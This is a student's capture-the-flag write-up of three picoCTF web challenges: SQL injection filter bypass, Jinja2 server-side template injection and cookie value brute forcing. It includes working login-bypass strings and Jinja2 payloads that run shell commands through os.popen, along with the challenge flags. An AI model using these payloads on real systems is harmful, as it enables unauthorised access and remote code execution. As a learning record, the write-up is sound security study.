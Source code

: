 # 1. Web gauntlet
- use the specific sql injections and bypass the filters

## Solution:
- so the first filter that i shouldn't use was or so i searched up common sql payloads and i found a github and then i tried out the first one and saw that in sql the -- stands for comment out and as the sql query printed the and password is commented out and hence the username admiin matches and we moved to round 2.
- so now we can see that -- cannot be used further so now what i did was i used another character ; which is a single line comment and ignored the end of the line and also sometimes end the query
- In the third round i used another comment character or semicolon can be used as well but there was loophole that space cant be used and wasnt mentioned
- next since admin cant be used i used the concatenate exploaitation and used it and commmented out the rest of the query and round 5 since all the characters can be used i ran the same command and the source code was printed where the flag was present as well
```
r1. admin' --
(query sent) SELECT * FROM users WHERE username='admin' -- AND password='password'   (or, --)

r2. admin' ;
(query sent) SELECT * FROM users WHERE username='admin' ; AND password='password'   (or, --, > <)

r3. admin'/*
(query sent) SELECT * FROM users WHERE username='admin' ; AND password='password'   (or, --, > <)

r4. adm'||'in';
(query sent) SELECT * FROM users WHERE username='admin' ; AND password='password'   (or, --, > <, admin)

r5. adm'||'in';
(query sent) SELECT * FROM users WHERE username='admin' ; AND password='password'   (or, --, > <, admin, union)

```

## Flag:
```
picoCTF{y0u_m4d3_1t_79a0ddc6}
```
## Concepts learnt:
- i figured out that the first webpage were for us to filter and the second page consisted of the filters we arent allowed us to use so the first one was or.
- i learnt a lot about sql query injection and how they run in general and the websites as well as youtube links below should be used for reference whenever necessary and is important to master it
## Notes:

## Resources:
- [about sql injection](https://portswigger.net/web-security/sql-injection)(https://portswigger.net/web-security/sql-injection/lab-login-bypass)
- [sql injection sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)(https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)
- [sql payload list](https://github.com/payloadbox/sql-injection-payload-list)
- [sql youtube playlist](https://www.youtube.com/watch?v=1nJgupaUPEQ&list=PLuyTk2_mYISLaZC4fVqDuW_hOk0dd5rlf&pp=0gcJCa4EOCosWNin)
- [about sql](https://www.w3schools.com/sql/sql_comments.asp)
***


# 2. SSTI1
I made a cool website where you can announce whatever you want! Try it out!
Additional details will be available after launching your challenge instance.

## Solution:
- so i launched the instance for the challenge and it opened a webiste which printed or annouced whatver i typed out in the box but since it is a challenge there is supposed to be some loophole we should exploit so then the hint suggested to looks through server side template injection so i searched up what it was.(more of that on concepts)
- a common way was to use mathmatical injection so i typed out 7*7 but it returned the same result so the next option was to enclose in curly braces once and then twice which gave 49 as the result so yes we relaised the webiste has some vulnerability which can be standard
- ![Tree to identify](SSTI1_identifying.png)
- The tree suggested to try jinja2 (more in concepts) so then i searched up SSTI using jinja and a webpage opened up where there were payloads to breakthrough the webpage so i tried first payload which suggested to put out id: ![id payload](SSTI1_idcmd.png)
- this suggested that the user and group is the root user so next i edited the payload to print files by using ls -a command: ![ls -a payload](SSTI1_ls-acmd.png)
- this clearly printed the flag file so use command cat flag and the flag gets printed on the webpage

```
7*7
{7*7}
{{7*7}}
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -a').read()}}
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}

```
## Flag:
```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_dcdca99a}
```
## Concepts learnt:
- Server-side template injection when we are able to use a command to inject a payload into a template, which is then executed server-side which can expose websites to a variety of attacks. these arise we input templates rather than being data.
- one of the basic ways to do so is detect, identify, exploit so basically there are standard syntaxes that can be used more explained in the webpage
- A template engine (like Jinja2, Twig, or FreeMarker) is designed to call a webpage by combining a template with data or commands. An SSTI attack exploits this process by making the template engine interpret our input as code or commands, rather than just plain data.
- one example is jinja which uses python and it is the specific software we target to achieve remote code execution (RCE) in web applications using python, more types and methods can be explored in the webpage

## Resources:
- [about SSTI](https://portswigger.net/web-security/server-side-template-injection#constructing-a-server-side-template-injection-attack)
- [about SSTI using jinja](https://onsecurity.io/article/server-side-template-injection-with-jinja2/)

***


# 3. Cookies
- Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:64944/

## Solution:
- so i opened the website and navigated to cookies which showed the name and the value to be -1 and as suggested by the prompt i typed out snickerdoole and the webpage changed to check and the value of the name cookie changed to 1 and printed i love snicker doodle cookies as well as a pop up that said not a very special cookie.
- so now since the value changed to one i tried out entering 2 and it printed another cookie so hence every cookie has a specific value.
- so i individuall changed the value of cookie to a certain value from 1 and eventually at 18 the flag popped up and luckily this challenge had only about 30 values so it was easy to brute force it manually but learning a script which can do so is more efficient way and should be explored

## Flag:
```
picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}
```
## Concepts learnt:
- Cookies are pieces of data that a website stores on a browser and act as a memory for the website, helping it remember information about the user's activity.
- There are various types of cookies and the main column is the value which holds key-value-pair or the data which is encoded and the number is a short way to reference large record and acts as an identifier that grants permission to access info associated with the account (more in the website)

## Resources:
- [about cookies](https://www.geeksforgeeks.org/websites-apps/understanding-cookies-in-web-browsers/)
- (https://en.wikipedia.org/wiki/HTTP_cookie)

***

